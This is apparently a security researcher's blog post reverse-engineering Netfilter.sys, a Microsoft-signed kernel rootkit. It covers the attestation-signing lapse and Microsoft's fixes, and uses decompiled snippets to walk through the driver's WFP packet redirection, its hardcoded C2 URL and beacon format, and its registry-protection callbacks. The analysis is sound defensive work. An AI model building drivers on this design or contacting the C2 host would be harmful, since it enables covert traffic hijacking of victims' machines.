



A detailed technical analysis of Netfilter.sys, a malicious kernel driver that was legitimately signed by Microsoft through attestation signing. This post explores how the rootkit harnesses the Windows Filtering Platform for stealthy IP redirection, the C2 communication mechanisms, and how Microsoft strengthened driver signing processes afterwards.

### Why I’m Picking Apart This Driver

While digging into ways attackers bypass Driver Signing Enforcement (DSE) on modern Windows, I stumbled over a 2021 case: a malicious driver called Netfilter that somehow ended up legitimately signed by Microsoft. A real‑world example of the signing pipeline failing is really interesting. Let’s reverse it, see how the threat actors slipped through, and learn what Microsoft tightened afterward.

### How a Malicious Driver Got Microsoft’s Blessing

#### Attestation signing 101 (the old fast‑lane)

Windows requires kernel drivers to bear a Microsoft signature to load with DSE on. Vendors normally submit through the Windows Hardware Compatibility Program (WHCP) and run exhaustive HLK tests. In 2015, Microsoft introduced Attestation Signing. It is a quicker, automated track that skipped HLK for non‑PnP or niche drivers. Vendors upload a CAB where automated scanners look for obvious malware, and Microsoft returns a signed CAT + re‑signed binaries.

#### What went wrong in June 2021

A threat actor created a legitimate Hardware Developer Program account (EV certificate + company identity) and submitted Netfilter.sys via the attestation portal. The driver’s malicious logic was subtle (it registers as a Windows Filtering Platform call‑out and redirects IPs; no blatant shellcode). Automated checks flagged nothing, so the portal signed and stamped the driver. Signed malware was then seen in Chinese gaming circles, and G DATA raised the alarm. Microsoft confirmed the mis‑sign and revoked the partner account and hashes.

#### Microsoft’s cleanup & new rules

June 2021 – Microsoft blocked the driver with Defender, suspended the dev‑center account, and said they would “refine partner access, validation, and signing” going forward.

March 2023 – Microsoft announced that attestation‑signed drivers can no longer be published to Windows Update for retail users. Vendors wanting broad distribution must now use the full WHCP release‑sign path (HLK tested).

2024–2025 – Further tweaks: pre‑production signatures are split to a separate CA; partners must re‑associate EV certs; additional manual review for any kernel driver hitting retail audiences.

Takeaway: The Netfilter incident closed the ‘fast lane’ for most public drivers where attestation is now test‑only, while retail builds face stricter human and automated scrutiny.

### The Rootkit at a Glance

Before the instruction-level walkthrough, here's the shape of the whole thing. Two halves: a WFP registration sequence that looks completely ordinary, and a worker thread that turns that ordinary registration into a remotely-controlled traffic redirector.


<span class="fig-cap">Fig 1 — nothing in the top half (signing, WFP registration) is malicious in isolation. The bottom half is what turns a legitimate-looking network filter into a remotely steerable redirector.</span>

### Dissecting Netfilter: Step‑by‑Step

Name: `netfilter.sys`

MD5: `916ba55fc004b85939ee0cc86a5191c5`

SHA-1: `8788f4b39cbf037270904bdb8118c8b037ee6562`

SHA-256: `115034373fc0ec8f75fb075b7a7011b603259ecc0aca271445e559b5404a1406`

Type: `Driver64`

#### DriverEntry: Standard Setup with a Twist

**(This part is largely benign in appearance, typical of many WFP drivers.)**

Open the driver in IDA ➜ straight to `DriverEntry`.


-   **Imports and Framework Binding:**
-   **Component Initialization:**
    -   `InitializeDriverComponents(&driverConfigObject)` loops over each component and would call `WdfVersionBindClass` for each.
    -   If initialization (`InitializeDriverComponents`, `FinalizeInitialization`, or fallback init) fails, `CleanupComponents` invokes `WdfVersionUnbind`/`WdfVersionUnbindClass` to unwind everything cleanly. This error handling is also standard.
-   **Driver Unload Hooking:**
    -   `DriverUnloadHook` ensures that its own `CleanupComponents` function (and any original unload routine) is called. This is standard practice for ensuring resources are freed.
-   **Initial Imports Suggesting Network Activity:**


-   The presence of `Fwpm*` / `Fwps*` functions (Windows Filtering Platform) like `FwpsCalloutRegister1`, `FwpmEngineOpen0`, etc., clearly indicates that this driver intends to interact with the network stack. Many legitimate security products and network utilities use WFP.
-   Calls like `IoCreateDevice` and `IoCreateSymbolicLink` (seen within `InitializeDriverResources` called by `SetupNetworkFilter`) are standard for drivers that need to be accessible from user mode.

At this point in `DriverEntry`, the actions are consistent with a driver that intends to set up network filtering. The logic is primarily about initialization, framework binding, and ensuring proper cleanup.

#### Fallback Path: InitializeFallback

Even after attempting the standard WDF binding and component setup in `DriverEntry`, the driver always falls back to this routine:


-   **When is `InitializeFallback` called?**Unconditionally after `InitializeDriverComponents` and `FinalizeInitialization` in `DriverEntry`—even if those earlier steps succeed or fail. In the rare case `DriverObject` is null, it’s invoked directly.
-   **Why it matters:**No matter what else fails, the driver still tries to bring up its **network‐filtering core**. That persistent “last line of defense” underscores that **intercepting network traffic is its top priority**—even in a degraded state.

#### Network-Filter Setup: SetupNetworkFilter


Inside `SetupNetworkFilter`, the driver lays the groundwork for its network manipulation:

-   **Global Configuration:**
    
    ```c
    ConfigureFilterGlobals(0, (__int64)"NET_FILTER", 1, 1);
    // Sets g_FilterName = "NET_FILTER", g_CreateDevObj = 0, g_FilterFlagA = 1, g_FilterFlagB = 1
    ```
    
    -   This function sets up some global names and flags. `L"NET_FILTER"` becomes a global identifier.
-   **Conditional Start:**
    
    ```c
    if ( ShouldStartFilter() )
    // ShouldStartFilter() calls QueryServiceControl(), which likely checks a registry value or external trigger.
    // The result is cached in g_ShouldStartCached.
    ```
    
    -   The driver checks if it *should* activate its filtering. This provides a control mechanism, possibly set via C2 or a configuration in the registry.
-   **Device Object Creation:**
    
    ```c
    SetDeviceAndSymbolicNames(L"\\Device\\netfilter", L"\\??\\netfilter");
    ```
    
    -   Creates a device `\Device\netfilter` and a symbolic link `\??\netfilter`, allowing user-mode applications to communicate with it (e.g., to send configuration or receive data). This is standard for many drivers.
-   **Windows Filtering Platform (WFP) Registration (Core of the “Subtle” Malicious Logic):** The Windows Filtering Platform (WFP) is a powerful set of APIs and system services in Windows that provides the infrastructure for applications and drivers to intercept and modify network traffic. It’s the backbone for many network security features, including the Windows Firewall, and is used by numerous third-party firewalls, intrusion detection/prevention systems, VPN clients, and network monitoring tools.
    
    **How WFP Works (Simplified):**
    
    1.  **Filtering Engine:** The core WFP component that processes network packets against registered rules.
    2.  **Layers:** WFP defines specific “layers” at various points in the TCP/IP stack (e.g., IP packet layer, transport layer, Application Layer Enforcement (ALE) for connection establishment). Filtering can occur at any of these layers.
    3.  **Callouts:** These are functions implemented by a third-party driver (like Netfilter.sys). When the WFP engine processes traffic that matches a specific filter rule linked to a callout, it invokes that callout function.
    4.  **ClassifyFn:** The primary function within a callout. It receives packet/connection metadata and decides whether to `PERMIT`, `BLOCK`, or `CALLOUT_ACTION_CONTINUE` (pass to lower-weight filters). Crucially, it can also request writable access to packet data to modify it.
    5.  **Filters:** These are the rules. A filter specifies conditions (like IP address, port, protocol, direction) and links to a specific callout at a particular layer and sub-layer. It also defines an action (e.g., invoke callout, permit, block).
    6.  **Sub-Layers:** These provide a mechanism for ordering and arbitrating between multiple filters that might exist at the same WFP layer, ensuring a predictable processing order.
    
    WFP is important because it offers a documented, supported, and relatively stable way for kernel-mode components to interact with the network stack without resorting to unsupported techniques like direct NDIS hooking, which can lead to system instability.
    
    *(For a deeper dive into WFP architecture and development, check out this article by zeronetworks* [https://zeronetworks.com/blog/wtf-is-going-on-with-wfp](https://zeronetworks.com/blog/wtf-is-going-on-with-wfp))
    
    Now, let’s see how Netfilter.sys leverages this legitimate platform:
    
    -   `EnsureFrameworkInitialized()`: This likely ensures basic WDF structures are ready.
        
    -   `RegisterFilterContext()`: Retrieves and stores the driver’s WDF device context via the WDF‐provided callback
        
    -   `InitializeContextFromHandle()`: Sets up the WFP engine handle, transaction, callouts and filters in one operation:
        
        1.  OpenWfpEngine() Calls `FwpmEngineOpen0` to get a handle to the Windows Filtering Platform.
            
        2.  BeginWfpTransaction() Calls `FwpmTransactionBegin0`so all subsequent WFP changes occur as a single, roll‐backable unit.
            
        3.  RegisterCalloutFunctions()
            
            Fills out a `FWPM_CALLOUT` structure:
            
            -   `classifyFn = (FWPS_CALLOUT_CLASSIFY_FN1)ClassifyCallback`
                
            -   `notifyFn = (FWPS_CALLOUT_NOTIFY_FN1)NotifyCallback`
                
            -   `flowDeleteFn = (FWPS_CALLOUT_FLOW_DELETE_NOTIFY_FN0)FlowDeleteNoOp`
                
            -   `calloutKey = {GUID}` that identifies this driver’s callout.
                
                Submits it via `FwpmCalloutAdd0`.
                
        4.  **AddCalloutAndFilters()**
            
            -   **FwpmSubLayerAdd0**: Creates a custom sub-layer (GUID `{2921234954u,50698u,…}`) so filters can be ordered.
            -   **FwpmFilterAdd0**: Inserts a terminating callout filter:
            
            ```c
            filter.layerKey     = {IP_PACKET-or-ALE_AUTH_CONNECT GUID};
            filter.subLayerKey  = customSubLayerKey;
            filter.action.type  = FWP_ACTION_CALLOUT_TERMINATING | FWP_ACTION_FLAG_CALLOUT;
            filter.action.calloutKey = calloutKey;
            ```
            
            This forces matching traffic into the callout routine and makes its verdict final.
            
        5.  CommitWfpTransaction()
            
            Calls `FwpmTransactionCommit0` to apply everything or roll back on error.
            
    -   **g\_ContextInitSucceeded** A global flag set true only if every step above returns success.


<span class="fig-cap">Fig 2 — wrapping the whole registration in one WFP transaction means the driver either fully hooks the network stack or fully doesn't; there's no half-registered state a defender could catch mid-setup.</span>

> **Benign use of WFP:** registering callouts and filters is exactly how firewalls and network monitors hook network I/O. **Malicious twist:** here it’s used not for protection but to invisibly redirect traffic and support C2 channels, leveraging standard OS APIs to stay under the radar.
    
-   **Worker Thread Creation:**
    
    ```c
    if ( regStatus >= 0 && StartFilterDevice(DriverObject) ) // StartFilterDevice likely finalizes WDF device operations
    {
      AllocateWorkItem(&g_WorkItem); // Initializes a KEVENT for synchronization
      return (unsigned __int8)CreateSystemThread(&g_WorkerThreadHandle, FilterWorkerThread) != 0;
    }
    ```
    
    -   If all WFP setup succeeds, a kernel worker thread (`FilterWorkerThread`) is created. This thread will handle the C2 activities.

### Stealthy Beaconing & C2 Functionality in `FilterWorkerThread`


**(This is where the driver’s behavior becomes too malicious)**

Once `SetupNetworkFilter` succeeds, the driver spins up `FilterWorkerThread`. This kernel-mode thread is the engine of its covert operations:

-   **Execution Privileges and Environment:**
    
    ```c
    KeEnterCriticalRegion();
    KeSetBasePriorityThread(KeGetCurrentThread(), 5); // Priority 5 is relatively high for a driver thread.
    AttachThreadToFilterFramework(KeGetCurrentThread()); // Stores current thread in g_Qw_14000E210
    InitializeNetworkSubsystem(); // Initializes timer list (qword_140010650)
    ```
    
    -   By entering a critical region and setting a higher base priority, the thread attempts to ensure its execution is less likely to be preempted or interrupted by less critical system activities.
-   **Periodic Timers for C2 Communication and Tasks:**
    
    -   The thread sets up several periodic tasks using `SchedulePeriodicTimerTask`, which adds entries to a list processed by `HandleDeferredTimerTasks` in the thread’s main loop.
    
    ```c
    SchedulePeriodicTimerTask(CheckProxyConfigTimerCallback, 10);      // Related to registry checks/updates for proxy settings
    SchedulePeriodicTimerTask(UploadStatsTimerCallback, 60);   // For sending data
    SchedulePeriodicTimerTask(CleanupAndConfigFetchTimerCallback, 1800); // Calls FetchRemoteConfig_IfChanged to fetch config
    SchedulePeriodicTimerTask(ReconnectTimerCallback, 1800);  // Implies C2 connection maintenance
    SchedulePeriodicTimerTask(HeartbeatTimerCallback, 30);    // Core "I'm alive" beacon and data exchange
    ```
    
    -   `SetC2ServerUrl("http://110.42.4.180:2080/u");`
        -   This call hardcodes the C2 server URL into the global variable. This is a definitive IOC.
-   **C2 Communication Loop:**
    
    -   The thread waits for the network to be ready using `IsNetworkReady_PerformInitialC2Check()` This function itself performs an HTTP GET request via `PerformHttpGetRequest_AndStoreResponse` to the C2 server and checks the response, likely for an initial configuration or “go-ahead” signal.
        
    -   Then, it enters its main loop:
        
        ```c
        while ( !g_TerminationRequested )
        {
          ProcessInboundPackets();  
          ProcessOutboundPackets(); 
          HandleDeferredWork(1i64); 
          SleepMilliseconds(1000i64);
        }
        ```
        
-   **C2 Communication Details:**
    
    -   **Outbound Beaconing/Data Exfiltration:** `HeartbeatTimerCallback` -> `PrepareHeartbeatDataAndTriggerC2` -> `SendHeartbeatAndReceiveFileFromC2`:
        
        -   `HeartbeatTimerCallback` triggers `PrepareHeartbeatDataAndTriggerC2`. This function attempts to read a local file (path derived from the driver’s own `ImagePath` via `GetDriverImagePath_Wdf` and `ReadFileContentToBuffer`
        -   If the file read fails or is empty, a default identifier `"921fa8a5442e9bf3fe727e770cded4ab"` is used. Otherwise, an MD5-like hash (via `CalculateMD5HashOfString)` of the file’s content is used.
        -   This identifier/hash is passed to `SendHeartbeatAndReceiveFileFromC2`
        -   `SendHeartbeatAndReceiveFileFromC2` then calls `ConstructC2HeartbeatUrl` to construct a GET request URL: `GLOBAL_C2_BASE_PATH + "v=" + DRIVER_VERSION_STRING + "&m=" + SYSTEM_IDENTIFIER`.
        -   `PerformHttpGetRequest_ParseResponseToHash_AndSaveToFile` executes this HTTP GET request.
        
        -   The response from the C2 is processed:
            -   If the HTTP status is “200” (checked by `FindSubstring_CheckHttpOkStatus` ) the body (after headers, found by `FindHttpBodyFromResponse` ) is taken.
            -   An MD5-like hash of this C2 response body is computed and stored globally (potentially as a session key or updated identifier).
            -   The raw C2 response body is then written to a local file using `WriteDataToFileFromC2_Wrapper` , which calls `WriteBufferToFileByPath` . The filename is likely again derived from the driver’s `ImagePath`. This is how the C2 can deliver files (updated configs, new modules) to the victim.
    -   **Inbound Command Fetching (`ProcessInboundPackets` ):**
        
        -   This function makes a GET request to the C2 server URL ( `http://110.42.4.180:2080/u`).
        -   If it receives a response other than just “200 OK”, it parses the body.
        -   It expects a response body formatted like: `[target_IP_decimal-target_port]{new_redirect_IP_decimal|new_redirect_port}`. (The actual parsing is more flexible, looking for `[id1-id2]{data|data...}`)
        -   `QueueC2CommandToList` queues these parsed rules/commands (original IP, new IP, ports) into a linked list.
        -   This queue is then used by the WFP callout (`WfpClassifyCallback_RedirectTraffic`) to perform IP/port redirection.
    -   **Malicious Payload Delivery & Actions (via WFP Callout `WfpClassifyCallback_RedirectTraffic` and `WfpApplyPacketRedirection`):**
        
        -   When network traffic matches the WFP filter, `WfpClassifyCallback_RedirectTraffic` is invoked.
        -   It extracts the original destination IP and port from the packet metadata.
        -   It calls `FindRedirectionRuleInQueue` which iterates through the command queue (populated by `FetchAndProcessC2Commands`) to find a redirection rule matching the original destination IP.
        -   If a rule is found, `FindRedirectionRuleInQueue` returns the new destination IP and port.
        -   `WfpApplyPacketRedirection` then uses `FwpsAcquireWritableLayerDataPointer0` to get direct access to the packet’s network layer data. It modifies the destination IP address and destination port in the packet headers to the new values received from the C2.
            -   IP addresses are byte-swapped (`_byteswap_ulong`) and ports are potentially byte-swapped (`__ROR2__`) to ensure correct network byte order.
    -   `FwpsApplyModifiedLayerData0` commits these changes to the packet.
        
    -   The packet, now redirected, is permitted to continue via `FwpsCompleteClassify0` with `actionType = FWP_ACTION_PERMIT | FWP_ACTION_FLAG_CALLOUT`.
        
    -   **This IP redirection is the primary malicious network payload observed in the code.**


<span class="fig-cap">Fig 3 — the C2 never sends traffic itself; it only ships redirection rules. The rootkit's own WFP callout does the actual packet surgery, on every connection that matches, for as long as the driver is loaded.</span>
        
-   **Stealth Advantages:**
    
    -   **Kernel-Mode Operation:** Operates with high privileges, making it difficult for user-mode security software to detect or interfere directly.
    -   **Legitimate WFP Usage:** Leverages standard Windows Filtering Platform APIs, which can make its presence look like a legitimate network utility or firewall to superficial inspection. The maliciousness is in the *effect* of the filtering based on C2 commands.
    -   **Blended C2 Traffic:** HTTP GET requests for C2 can be hard to distinguish from normal web traffic if not specifically looking for connections to the hardcoded IP/domain.
    -   **Registry Callbacks for Defense/Stealth (**`RegistryOperationCallback_ProtectSetting`**):**
        -   This callback, registered via `CmRegisterCallbackEx`, monitors specific registry keys:
            -   `\Registry\User\%SID%\Software\Microsoft\Windows\CurrentVersion\Internet Settings`
            -   `\Registry\User\%SID%\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections`
            -   `\Registry\Machine\SOFTWARE\Microsoft\SystemCertificates\ROOT\Certificates\`
        -   If it detects attempts to modify values like `AutoConfigURL` or `DefaultConnectionSettings`, or access certain certificate paths (checked using `IsRegistryPathTargeted` (prev `sub_140006504`)), it can return `STATUS_ACCESS_DENIED`.
        -   **This is a defensive mechanism** to protect its C2 communication channels (if they rely on system proxy settings modified by the rootkit) or to prevent tampering/detection related to rogue root certificates it might install for TLS interception.

### Conclusion: A Lesson in Stealth and System Trust

This deep dive into `netfilter.sys` has been a fascinating detour from my primary research on Driver Signing Enforcement, yet it offers invaluable insights directly relevant to it. We’ve seen how a threat actor can:

1.  **Exploit Trust:** Successfully navigate the (at the time) less stringent attestation signing process by presenting a driver whose initial setup routines mimic legitimate software.
2.  **Employ Subtle Malice:** The core malicious logic wasn’t in blatant shellcode or easily flagged API abuse during static analysis. Instead, it lay in the *purposeful misuse* of the powerful and legitimate Windows Filtering Platform, activated and controlled via a covert C2 channel. The driver uses standard WFP functions to hook into the network stack, but the *rules* and *actions* (IP redirection) are dictated by the attacker post-deployment.
3.  **Maintain Operational Stealth:** By operating in the kernel, establishing a C2 channel that can blend with normal HTTP traffic, and even defensively monitoring registry keys related to its operation, the rootkit aims for longevity and evasion.

The Netfilter case underscores a critical challenge for automated security vetting: discerning intent. The driver’s code, particularly its WFP registration, largely uses APIs in a documented manner. It’s the C2-driven nature and the ultimate goal of traffic manipulation that make it malicious.

Microsoft’s subsequent tightening of the attestation signing process, pushing more drivers towards the comprehensive WHCP validation, and adding more layers of review are direct responses to incidents like this. It highlights the ongoing cat-and-mouse game between attackers finding novel ways to abuse system features and platform vendors working to close those loopholes.

This exploration of Netfilter, while a specific case, reinforces the importance of robust driver vetting and the need for security mechanisms that can look beyond static signatures to understand true runtime behavior and intent. Now, back to the broader landscape of DSE and its evolving defenses ~
